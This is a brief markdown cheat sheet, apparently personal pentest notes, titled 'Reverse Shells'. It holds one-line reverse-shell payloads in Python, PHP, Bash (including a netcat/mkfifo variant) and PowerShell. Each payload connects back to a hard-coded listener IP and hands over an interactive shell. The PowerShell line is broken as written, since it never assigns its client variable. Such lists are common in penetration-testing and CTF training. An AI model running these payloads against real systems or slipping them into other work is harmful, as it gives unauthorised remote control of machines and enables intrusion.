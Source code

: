 ```yaml
---
## Reverse Shells
---
```


I would like to get more data from Pentest Mokey here. Seems like that site is not reliable. 


#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP
```php
php -r '$sock=fsockopen("10.10.14.46",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### BASH
```bash
bash -i >& /dev/tcp/10.10.14.140/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

#### POWERSHELL
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
